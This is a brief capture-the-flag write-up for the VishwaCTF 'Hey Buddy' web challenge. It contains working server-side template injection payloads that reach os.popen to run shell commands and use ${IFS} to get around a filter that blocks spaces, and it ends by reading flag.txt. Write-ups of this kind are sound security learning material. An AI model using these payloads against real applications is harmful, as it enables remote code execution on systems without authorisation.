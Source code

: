 # Challenge description

Hey Buddy, Give me your name I will display your name on my website. Yes exactly, there is nothing in this website.

Url - https://h3y-buddy.vishwactf.com/

-----------------------------------------------------------

So this was a typical SSTI ctf challenge but later on we found that there was a blacklist for spaces.

Payload:

```` /submit?name={{config.__class__.__init__.__globals__[%27os%27].popen("ls").read()}}  ````

Output:

![image](https://user-images.githubusercontent.com/58823465/159277284-d883ed26-f4ab-45a8-a29d-9ce0cdd83644.png)


We can simply bypass this with ${IFS}:

Final payload:

```` /submit?name={{config.__class__.__init__.__globals__[%27os%27].popen("cat${IFS}flag.txt").read()}}  ````

Output:

![image](https://user-images.githubusercontent.com/58823465/159277454-bc977a5e-0249-4c27-b968-82bf46f1e719.png)


And there's the flag

``` Flag :  VishwaCTF{S3rv3r_1s_4fraiD_of_inj3c7ion} ```
